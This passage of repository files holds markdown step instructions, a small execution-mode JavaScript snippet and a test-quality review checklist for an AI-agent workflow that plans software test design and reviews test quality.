Load: `pactjs-utils-overview.md`, `pactjs-utils-consumer-helpers.md`, `pactjs-utils-provider-verifier.md`, `pactjs-utils-request-filter.md`

**If `tea_use_pactjs_utils` is disabled** but contract testing is relevant:

Load: `contract-testing.md`

### Pact MCP Loading

**If `tea_pact_mcp` is `"mcp"`:**

Load: `pact-mcp.md` — enables agent to use SmartBear MCP "Fetch Provider States" and "Matrix" tools to understand existing contract landscape during test design.

## 4. Load Knowledge Base Fragments

Use `{knowledgeIndex}` to select and load only relevant fragments.

### System-Level Mode (Required)

- `adr-quality-readiness-checklist.md`
- `test-levels-framework.md`
- `risk-governance.md`
- `test-quality.md`

### Epic-Level Mode (Required)

- `risk-governance.md`
- `probability-impact.md`
- `test-levels-framework.md`
- `test-priorities-matrix.md`

**Playwright CLI (if `tea_browser_automation` is "cli" or "auto"):**

- `playwright-cli.md`

**MCP Patterns (if `tea_browser_automation` is "mcp" or "auto"):**

- (existing MCP-related fragments, if any are added in future)

**Pact.js Utils (if enabled — both System-Level and Epic-Level):**

- `pactjs-utils-overview.md`, `pactjs-utils-consumer-helpers.md`, `pactjs-utils-provider-verifier.md`, `pactjs-utils-request-filter.md`

**Contract Testing (if pactjs-utils disabled but relevant):**

- `contract-testing.md`

**Pact MCP (if tea_pact_mcp is "mcp"):**

- `pact-mcp.md`

---

## 5. Confirm Loaded Inputs

Summarize what was loaded and confirm with the user if anything is missing.

---

### 6. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-02-load-context']
  lastStep: 'step-02-load-context'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-02-load-context'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-02-load-context'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

**Update `inputDocuments`**: Set `inputDocuments` in the output template frontmatter to the list of artifact paths loaded in this step (e.g., knowledge fragments, test design documents, configuration files).

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-test-design/steps-c/step-03-risk-and-testability.md`
```markdown
---
name: 'step-03-risk-and-testability'
description: 'Perform testability review (system-level) and risk assessment'
nextStepFile: './step-04-coverage-plan.md'
outputFile: '{test_artifacts}/test-design-progress.md'
---

# Step 3: Testability & Risk Assessment

## STEP GOAL

Produce a defensible testability review (system-level) and a risk assessment matrix (all modes).

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🎯 Base conclusions on evidence from loaded artifacts

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. System-Level Mode: Testability Review

If **system-level**, evaluate architecture for:

- **Controllability** (state seeding, mockability, fault injection)
- **Observability** (logs, metrics, traces, deterministic assertions)
- **Reliability** (isolation, reproducibility, parallel safety)

**Structure output as:**

1. **🚨 Testability Concerns** (actionable issues first)
2. **✅ Testability Assessment Summary** (what is already strong)

Also identify **ASRs** (Architecturally Significant Requirements):

- Mark each as **ACTIONABLE** or **FYI**

---

## 2. All Modes: Risk Assessment

Using `risk-governance.md` and `probability-impact.md` (if loaded):

- Identify real risks (not just features)
- Classify by category: TECH / SEC / PERF / DATA / BUS / OPS
- Score Probability (1–3) and Impact (1–3)
- Calculate Risk Score (P × I)
- Flag high risks (score ≥ 6)
- Define mitigation, owner, and timeline

---

## 3. Summarize Risk Findings

Summarize the highest risks and their mitigation priorities.

---

### 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-03-risk-and-testability']
  lastStep: 'step-03-risk-and-testability'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-03-risk-and-testability'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-03-risk-and-testability'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-test-design/steps-c/step-04-coverage-plan.md`
```markdown
---
name: 'step-04-coverage-plan'
description: 'Design test coverage, priorities, execution strategy, and estimates'
nextStepFile: './step-05-generate-output.md'
outputFile: '{test_artifacts}/test-design-progress.md'
---

# Step 4: Coverage Plan & Execution Strategy

## STEP GOAL

Create the test coverage matrix, prioritize scenarios, and define execution strategy, resource estimates, and quality gates.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🚫 Avoid redundant coverage across test levels

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Coverage Matrix

For each requirement or risk-driven scenario:

- Decompose into atomic test scenarios
- Select **test level** (E2E / API / Component / Unit) using `test-levels-framework.md`
- Ensure no duplicate coverage across levels
- Assign priorities (P0–P3) using `test-priorities-matrix.md`

**Priority rules:**

- P0: Blocks core functionality + high risk + no workaround
- P1: Critical paths + medium/high risk
- P2: Secondary flows + low/medium risk
- P3: Nice-to-have, exploratory, benchmarks

---

## 2. Execution Strategy (Keep Simple)

Use a **PR / Nightly / Weekly** model:

- **PR**: All functional tests if <15 minutes
- **Nightly/Weekly**: Long-running or expensive suites (perf, chaos, large datasets)
- Avoid re-listing all tests (refer to coverage plan)

---

## 3. Resource Estimates (Ranges Only)

Provide intervals (no false precision):

- P0: e.g., "~25–40 hours"
- P1: e.g., "~20–35 hours"
- P2: e.g., "~10–30 hours"
- P3: e.g., "~2–5 hours"
- Total and timeline as ranges

---

## 4. Quality Gates

Define thresholds:

- P0 pass rate = 100%
- P1 pass rate ≥ 95%
- High-risk mitigations complete before release
- Coverage target ≥ 80% (adjust if justified)

---

### 5. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-04-coverage-plan']
  lastStep: 'step-04-coverage-plan'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-04-coverage-plan'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-04-coverage-plan'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-test-design/steps-c/step-05-generate-output.md`
```markdown
---
name: 'step-05-generate-output'
description: 'Generate output documents with adaptive orchestration (agent-team, subagent, or sequential)'
outputFile: '{test_artifacts}/test-design-epic-{epic_num}.md'
progressFile: '{test_artifacts}/test-design-progress.md'
---

# Step 5: Generate Outputs & Validate

## STEP GOAL

Write the final test-design document(s) using the correct template(s), then validate against the checklist.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Use the provided templates and output paths
- ✅ Resolve execution mode from explicit user request first, then config
- ✅ Apply fallback rules deterministically when requested mode is unsupported

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 0. Resolve Execution Mode (User Override First)

```javascript
const orchestrationContext = {
  config: {
    execution_mode: config.tea_execution_mode || 'auto', // "auto" | "subagent" | "agent-team" | "sequential"
    capability_probe: config.tea_capability_probe !== false, // true by default
  },
  timestamp: new Date().toISOString().replace(/[:.]/g, '-'),
};

const normalizeUserExecutionMode = (mode) => {
  if (typeof mode !== 'string') return null;
  const normalized = mode.trim().toLowerCase().replace(/[-_]/g, ' ').replace(/\s+/g, ' ');

  if (normalized === 'auto') return 'auto';
  if (normalized === 'sequential') return 'sequential';
  if (normalized === 'subagent' || normalized === 'sub agent' || normalized === 'subagents' || normalized === 'sub agents') {
    return 'subagent';
  }
  if (normalized === 'agent team' || normalized === 'agent teams' || normalized === 'agentteam') {
    return 'agent-team';
  }

  return null;
};

const normalizeConfigExecutionMode = (mode) => {
  if (mode === 'subagent') return 'subagent';
  if (mode === 'auto' || mode === 'sequential' || mode === 'subagent' || mode === 'agent-team') {
    return mode;
  }
  return null;
};

// Explicit user instruction in the active run takes priority over config.
const explicitModeFromUser = normalizeUserExecutionMode(runtime.getExplicitExecutionModeHint?.() || null);

const requestedMode = explicitModeFromUser || normalizeConfigExecutionMode(orchestrationContext.config.execution_mode) || 'auto';
const probeEnabled = orchestrationContext.config.capability_probe;

const supports = { subagent: false, agentTeam: false };
if (probeEnabled) {
  supports.subagent = runtime.canLaunchSubagents?.() === true;
  supports.agentTeam = runtime.canLaunchAgentTeams?.() === true;
}

let resolvedMode = requestedMode;
if (requestedMode === 'auto') {
  if (supports.agentTeam) resolvedMode = 'agent-team';
  else if (supports.subagent) resolvedMode = 'subagent';
  else resolvedMode = 'sequential';
} else if (probeEnabled && requestedMode === 'agent-team' && !supports.agentTeam) {
  resolvedMode = supports.subagent ? 'subagent' : 'sequential';
} else if (probeEnabled && requestedMode === 'subagent' && !supports.subagent) {
  resolvedMode = 'sequential';
}
```

Resolution precedence:

1. Explicit user request in this run (`agent team` => `agent-team`; `subagent` => `subagent`; `sequential`; `auto`)
2. `tea_execution_mode` from config
3. Runtime capability fallback (when probing enabled)

## 1. Select Output Template(s)

### System-Level Mode (Phase 3)

Generate **two** documents:

- `{test_artifacts}/test-design-architecture.md` using `test-design-architecture-template.md`
- `{test_artifacts}/test-design-qa.md` using `test-design-qa-template.md`

If `resolvedMode` is `agent-team` or `subagent`, these two documents can be generated in parallel as independent workers, then reconciled for consistency.

### Epic-Level Mode (Phase 4)

Generate **one** document:

- `{outputFile}` using `test-design-template.md`
- If `epic_num` is unclear, ask the user

Epic-level mode remains single-worker by default (one output artifact).

---

## 2. Populate Templates

Ensure the outputs include:

- Risk assessment matrix
- Coverage matrix and priorities
- Execution strategy
- Resource estimates (ranges)
- Quality gate criteria
- Any mode-specific sections required by the template

---

## 3. Validation

Validate the output(s) against:

- `checklist.md` in this workflow folder
- [ ] CLI sessions cleaned up (no orphaned browsers)
- [ ] Temp artifacts stored in `{test_artifacts}/` not random locations

If any checklist criteria are missing, fix before completion.

---

## 4. Generate BMAD Handoff Document (System-Level Mode Only)

**If this is a system-level test design** (not component/feature level):

1. Copy `test-design-handoff-template.md` to `{test_artifacts}/test-design/{project_name}-handoff.md`
2. Populate all sections from the test design output:
   - Fill TEA Artifacts Inventory with actual paths
   - Extract P0/P1 risks into Epic-Level guidance
   - Map critical test scenarios to Story-Level guidance
   - Build risk-to-story mapping table from risk register
3. Save alongside the test design document

> **Note**: The handoff document is designed for consumption by BMAD's `create-epics-and-stories` workflow. It is only generated for system-level test designs where epic/story decomposition is relevant.

---

## 5. Polish Output

Before finalizing, review the complete output document for quality:

1. **Remove duplication**: Progressive-append workflow may have created repeated sections — consolidate
2. **Verify consistency**: Ensure terminology, risk scores, and references are consistent throughout
3. **Check completeness**: All template sections should be populated or explicitly marked N/A
4. **Format cleanup**: Ensure markdown formatting is clean (tables aligned, headers consistent, no orphaned references)

---

## 6. Completion Report

Summarize:

- Mode used
- Output file paths
- Key risks and gate thresholds
- Any open assumptions

---

### 7. Save Progress

**Save this step's accumulated work to `{progressFile}`.**

- **If `{progressFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-05-generate-output']
  lastStep: 'step-05-generate-output'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{progressFile}` already exists**, update:
  - Add `'step-05-generate-output'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-05-generate-output'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-test-design/steps-e/step-01-assess.md`
```markdown
---
name: 'step-01-assess'
description: 'Load an existing output for editing'
nextStepFile: './step-02-apply-edit.md'
---

# Step 1: Assess Edit Target

## STEP GOAL:

Identify which output should be edited and load it.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Ask the user which output file to edit
- 🚫 Do not edit until target is confirmed

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: existing outputs
- Focus: select edit target
- Limits: no edits yet

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Identify Target

Ask the user to provide the output file path or select from known outputs.

### 2. Load Target

Read the provided output file in full.

### 3. Confirm

Confirm the target and proceed to edit.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Target identified and loaded

### ❌ SYSTEM FAILURE:

- Proceeding without a confirmed target
```

## File: `src/workflows/testarch/bmad-testarch-test-design/steps-e/step-02-apply-edit.md`
```markdown
---
name: 'step-02-apply-edit'
description: 'Apply edits to the selected output'
---

# Step 2: Apply Edits

## STEP GOAL:

Apply the requested edits to the selected output and confirm changes.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Only apply edits explicitly requested by the user

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: selected output and user changes
- Focus: apply edits only

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Confirm Requested Changes

Restate what will be changed and confirm.

### 2. Apply Changes

Update the output file accordingly.

### 3. Report

Summarize the edits applied.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Changes applied and confirmed

### ❌ SYSTEM FAILURE:

- Unconfirmed edits or missing update
```

## File: `src/workflows/testarch/bmad-testarch-test-design/steps-v/step-01-validate.md`
```markdown
---
name: 'step-01-validate'
description: 'Validate workflow outputs against checklist'
outputFile: '{test_artifacts}/test-design-validation-report.md'
validationChecklist: '../checklist.md'
---

# Step 1: Validate Outputs

## STEP GOAL:

Validate outputs using the workflow checklist and record findings.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Validate against `{validationChecklist}`
- 🚫 Do not skip checks

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Write findings to `{outputFile}`

## CONTEXT BOUNDARIES:

- Available context: workflow outputs and checklist
- Focus: validation only
- Limits: do not modify outputs in this step

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Checklist

Read `{validationChecklist}` and list all criteria.

### 2. Validate Outputs

Evaluate outputs against each checklist item.

### 3. Write Report

Write a validation report to `{outputFile}` with PASS/WARN/FAIL per section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Validation report written
- All checklist items evaluated

### ❌ SYSTEM FAILURE:

- Skipped checklist items
- No report produced
```

## File: `src/workflows/testarch/bmad-testarch-test-review/SKILL.md`
```markdown
---
name: bmad-testarch-test-review
description: 'Review test quality using best practices validation. Use when user says "lets review tests" or "I want to evaluate test quality"'
---

Follow the instructions in [workflow.md](../bmad_repo/workflow.md).
```

## File: `src/workflows/testarch/bmad-testarch-test-review/bmad-skill-manifest.yaml`
```yaml
type: skill
```

## File: `src/workflows/testarch/bmad-testarch-test-review/checklist.md`
```markdown
# Test Quality Review - Validation Checklist

Use this checklist to validate that the test quality review workflow completed successfully and all quality criteria were properly evaluated.

---

## Prerequisites

Note: `test-review` is optional and only audits existing tests; it does not generate tests.
Coverage analysis is out of scope for this workflow. Use `trace` for coverage metrics and coverage gate decisions.

### Test File Discovery

- [ ] Test file(s) identified for review (single/directory/suite scope)
- [ ] Test files exist and are readable
- [ ] Test framework detected (Playwright, Jest, Cypress, Vitest, etc.)
- [ ] Test framework configuration found (playwright.config.ts, jest.config.js, etc.)

### Knowledge Base Loading

- [ ] tea-index.csv loaded successfully
- [ ] `test-quality.md` loaded (Definition of Done)
- [ ] `fixture-architecture.md` loaded (Pure function → Fixture patterns)
- [ ] `network-first.md` loaded (Route intercept before navigate)
- [ ] `data-factories.md` loaded (Factory patterns)
- [ ] `test-levels-framework.md` loaded (E2E vs API vs Component vs Unit)
- [ ] All other enabled fragments loaded successfully

### Context Gathering

- [ ] Story file discovered or explicitly provided (if available)
- [ ] Test design document discovered or explicitly provided (if available)
- [ ] Acceptance criteria extracted from story (if available)
- [ ] Priority context (P0/P1/P2/P3) extracted from test-design (if available)

---

## Process Steps

### Step 1: Context Loading

- [ ] Review scope determined (single/directory/suite)
- [ ] Test file paths collected
- [ ] Related artifacts discovered (story, test-design)
- [ ] Knowledge base fragments loaded successfully
- [ ] Quality criteria flags read from workflow variables

### Step 2: Test File Parsing

**For Each Test File:**

- [ ] File read successfully
- [ ] File size measured (lines, KB)
- [ ] File structure parsed (describe blocks, it blocks)
- [ ] Test IDs extracted (if present)
- [ ] Priority markers extracted (if present)
- [ ] Imports analyzed
- [ ] Dependencies identified

**Test Structure Analysis:**

- [ ] Describe block count calculated
- [ ] It/test block count calculated
- [ ] BDD structure identified (Given-When-Then)
- [ ] Fixture usage detected
- [ ] Data factory usage detected
- [ ] Network interception patterns identified
- [ ] Assertions counted
- [ ] Waits and timeouts cataloged
- [ ] Conditionals (if/else) detected
- [ ] Try/catch blocks detected
- [ ] Shared state or globals detected

### Step 3: Quality Criteria Validation

Coverage criteria are intentionally excluded from this checklist.

**For Each Enabled Criterion:**

#### BDD Format (if `check_given_when_then: true`)

- [ ] Given-When-Then structure evaluated
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Violations recorded with line numbers
- [ ] Examples of good/bad patterns noted

#### Test IDs (if `check_test_ids: true`)

- [ ] Test ID presence validated
- [ ] Test ID format checked (e.g., 1.3-E2E-001)
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Missing IDs cataloged

#### Priority Markers (if `check_priority_markers: true`)

- [ ] P0/P1/P2/P3 classification validated
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Missing priorities cataloged

#### Hard Waits (if `check_hard_waits: true`)

- [ ] sleep(), waitForTimeout(), hardcoded delays detected
- [ ] Justification comments checked
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Violations recorded with line numbers and recommended fixes

#### Determinism (if `check_determinism: true`)

- [ ] Conditionals (if/else/switch) detected
- [ ] Try/catch abuse detected
- [ ] Random values (Math.random, Date.now) detected
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Violations recorded with recommended fixes

#### Isolation (if `check_isolation: true`)

- [ ] Cleanup hooks (afterEach/afterAll) validated
- [ ] Shared state detected
- [ ] Global variable mutations detected
- [ ] Resource cleanup verified
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Violations recorded with recommended fixes

#### Fixture Patterns (if `check_fixture_patterns: true`)

- [ ] Fixtures detected (test.extend)
- [ ] Pure functions validated
- [ ] mergeTests usage checked
- [ ] beforeEach complexity analyzed
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Violations recorded with recommended fixes

#### Data Factories (if `check_data_factories: true`)

- [ ] Factory functions detected
- [ ] Hardcoded data (magic strings/numbers) detected
- [ ] Faker.js or similar usage validated
- [ ] API-first setup pattern checked
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Violations recorded with recommended fixes

#### Network-First (if `check_network_first: true`)

- [ ] page.route() before page.goto() validated
- [ ] Race conditions detected (route after navigate)
- [ ] waitForResponse patterns checked
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Violations recorded with recommended fixes

#### Assertions (if `check_assertions: true`)

- [ ] Explicit assertions counted
- [ ] Implicit waits without assertions detected
- [ ] Assertion specificity validated
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Violations recorded with recommended fixes

#### Test Length (if `check_test_length: true`)

- [ ] File line count calculated
- [ ] Threshold comparison (≤300 lines ideal)
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Splitting recommendations generated (if >300 lines)

#### Test Duration (if `check_test_duration: true`)

- [ ] Test complexity analyzed (as proxy for duration if no execution data)
- [ ] Threshold comparison (≤1.5 min target)
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Optimization recommendations generated

#### Flakiness Patterns (if `check_flakiness_patterns: true`)

- [ ] Tight timeouts detected (e.g., { timeout: 1000 })
- [ ] Race conditions detected
- [ ] Timing-dependent assertions detected
- [ ] Retry logic detected
- [ ] Environment-dependent assumptions detected
- [ ] Status assigned (PASS/WARN/FAIL)
- [ ] Violations recorded with recommended fixes

---

### Step 4: Quality Score Calculation

**Violation Counting:**

- [ ] Critical (P0) violations counted
- [ ] High (P1) violations counted
- [ ] Medium (P2) violations counted
- [ ] Low (P3) violations counted
- [ ] Violation breakdown by criterion recorded

**Score Calculation:**

- [ ] Starting score: 100
- [ ] Critical violations deducted (-10 each)
- [ ] High violations deducted (-5 each)
- [ ] Medium violations deducted (-2 each)
- [ ] Low violations deducted (-1 each)
- [ ] Bonus points added (max +30):
  - [ ] Excellent BDD structure (+5 if applicable)
  - [ ] Comprehensive fixtures (+5 if applicable)
  - [ ] Comprehensive data factories (+5 if applicable)
  - [ ] Network-first pattern (+5 if applicable)
  - [ ] Perfect isolation (+5 if applicable)
  - [ ] All test IDs present (+5 if applicable)
- [ ] Final score calculated: max(0, min(100, Starting - Violations + Bonus))

**Quality Grade:**

- [ ] Grade assigned based on score:
  - 90-100: A+ (Excellent)
  - 80-89: A (Good)
  - 70-79: B (Acceptable)
  - 60-69: C (Needs Improvement)
  - <60: F (Critical Issues)

---

### Step 5: Review Report Generation

**Report Sections Created:**

- [ ] **Header Section**:
  - [ ] Test file(s) reviewed listed
  - [ ] Review date recorded
  - [ ] Review scope noted (single/directory/suite)
  - [ ] Quality score and grade displayed

- [ ] **Executive Summary**:
  - [ ] Overall assessment (Excellent/Good/Needs Improvement/Critical)
  - [ ] Key strengths listed (3-5 bullet points)
  - [ ] Key weaknesses listed (3-5 bullet points)
  - [ ] Recommendation stated (Approve/Approve with comments/Request changes/Block)

- [ ] **Quality Criteria Assessment**:
  - [ ] Table with all criteria evaluated
  - [ ] Status for each criterion (PASS/WARN/FAIL)
  - [ ] Violation count per criterion

- [ ] **Critical Issues (Must Fix)**:
  - [ ] P0/P1 violations listed
  - [ ] Code location provided for each (file:line)
  - [ ] Issue explanation clear
  - [ ] Recommended fix provided with code example
  - [ ] Knowledge base reference provided

- [ ] **Recommendations (Should Fix)**:
  - [ ] P2/P3 violations listed
  - [ ] Code location provided for each (file:line)
  - [ ] Issue explanation clear
  - [ ] Recommended improvement provided with code example
  - [ ] Knowledge base reference provided

- [ ] **Best Practices Examples** (if good patterns found):
  - [ ] Good patterns highlighted from tests
  - [ ] Knowledge base fragments referenced
  - [ ] Examples provided for others to follow

- [ ] **Knowledge Base References**:
  - [ ] All fragments consulted listed
  - [ ] Links to detailed guidance provided

---

### Step 6: Optional Outputs Generation

**Inline Comments** (if `generate_inline_comments: true`):

- [ ] Inline comments generated at violation locations
- [ ] Comment format: `// TODO (TEA Review): [Issue] - See test-review-{filename}.md`
- [ ] Comments added to test files (no logic changes)
- [ ] Test files remain valid and executable

**Quality Badge** (if `generate_quality_badge: true`):

- [ ] Badge created with quality score (e.g., "Test Quality: 87/100 (A)")
- [ ] Badge format suitable for README or documentation
- [ ] Badge saved to output folder

**Story Update** (if `append_to_story: true` and story file exists):

- [ ] "Test Quality Review" section created
- [ ] Quality score included
- [ ] Critical issues summarized
- [ ] Link to full review report provided
- [ ] Story file updated successfully

---

### Step 7: Save and Notify

**Outputs Saved:**

- [ ] Review report saved to `{output_file}`
- [ ] Inline comments written to test files (if enabled)
- [ ] Quality badge saved (if enabled)
- [ ] Story file updated (if enabled)
- [ ] All outputs are valid and readable

**Summary Message Generated:**

- [ ] Quality score and grade included
- [ ] Critical issue count stated
- [ ] Recommendation provided (Approve/Request changes/Block)
- [ ] Next steps clarified
- [ ] Message displayed to user

---

## Output Validation

### Review Report Completeness

- [ ] All required sections present
- [ ] No placeholder text or TODOs in report
- [ ] All code locations are accurate (file:line)
- [ ] All code examples are valid and demonstrate fix
- [ ] All knowledge base references are correct

### Review Report Accuracy

- [ ] Quality score matches violation breakdown
- [ ] Grade matches score range
- [ ] Violations correctly categorized by severity (P0/P1/P2/P3)
- [ ] Violations correctly attributed to quality criteria
- [ ] No false positives (violations are legitimate issues)
- [ ] No false negatives (critical issues not missed)

### Review Report Clarity

- [ ] Executive summary is clear and actionable
- [ ] Issue explanations are understandable
- [ ] Recommended fixes are implementable
- [ ] Code examples are correct and runnable
- [ ] Recommendation (Approve/Request changes) is clear

---

## Quality Checks

### Knowledge-Based Validation

- [ ] All feedback grounded in knowledge base fragments
- [ ] Recommendations follow proven patterns
- [ ] No arbitrary or opinion-based feedback
- [ ] Knowledge fragment references accurate and relevant

### Actionable Feedback

- [ ] Every issue includes recommended fix
- [ ] Every fix includes code example
- [ ] Code examples demonstrate correct pattern
- [ ] Fixes reference knowledge base for more detail

### Severity Classification

- [ ] Critical (P0) issues are genuinely critical (hard waits, race conditions, no assertions)
- [ ] High (P1) issues impact maintainability/reliability (missing IDs, hardcoded data)
- [ ] Medium (P2) issues are nice-to-have improvements (long files, missing priorities)
- [ ] Low (P3) issues are minor style/preference (verbose tests)

### Context Awareness

- [ ] Review considers project context (some patterns may be justified)
- [ ] Violations with justification comments noted as acceptable
- [ ] Edge cases acknowledged
- [ ] Recommendations are pragmatic, not dogmatic

---

## Integration Points

### Story File Integration

- [ ] Story file discovered correctly (if available)
- [ ] Acceptance criteria extracted and used for context
- [ ] Test quality section appended to story (if enabled)
- [ ] Link to review report added to story

### Test Design Integration

- [ ] Test design document discovered correctly (if available)
- [ ] Priority context (P0/P1/P2/P3) extracted and used
- [ ] Review validates tests align with prioritization
- [ ] Misalignment flagged (e.g., P0 scenario missing tests)

### Knowledge Base Integration

- [ ] tea-index.csv loaded successfully
- [ ] All required fragments loaded
- [ ] Fragments applied correctly to validation
- [ ] Fragment references in report are accurate

---

## Edge Cases and Special Situations

### Empty or Minimal Tests

- [ ] If test file is empty, report notes "No tests found"
- [ ] If test file has only boilerplate, report notes "No meaningful tests"
- [ ] Score reflects lack of content appropriately

### Legacy Tests

- [ ] Legacy tests acknowledged in context
- [ ] Review provides practical recommendations for improvement
- [ ] Recognizes that complete refactor may not be feasible
- [ ] Prioritizes critical issues (flakiness) over style

### Test Framework Variations

- [ ] Review adapts to test framework (Playwright vs Jest vs Cypress)
- [ ] Framework-specific patterns recognized (e.g., Playwright fixtures)
- [ ] Framework-specific violations detected (e.g., Cypress anti-patterns)
- [ ] Knowledge fragments applied appropriately for framework

### Justified Violations

- [ ] Violations with justification comments in code noted as acceptable
- [ ] Justifications evaluated for legitimacy
- [ ] Report acknowledges justified patterns
- [ ] Score not penalized for justified violations

---

## Final Validation

### Review Completeness

- [ ] All enabled quality criteria evaluated
- [ ] All test files in scope reviewed
- [ ] All violations cataloged
- [ ] All recommendations provided
- [ ] Review report is comprehensive

### Review Accuracy

- [ ] Quality score is accurate
- [ ] Violations are correct (no false positives)
- [ ] Critical issues not missed (no false negatives)
- [ ] Code locations are correct
- [ ] Knowledge base references are accurate

### Review Usefulness

- [ ] Feedback is actionable
- [ ] Recommendations are implementable
- [ ] Code examples are correct
- [ ] Review helps developer improve tests
- [ ] Review educates on best practices

### Workflow Complete

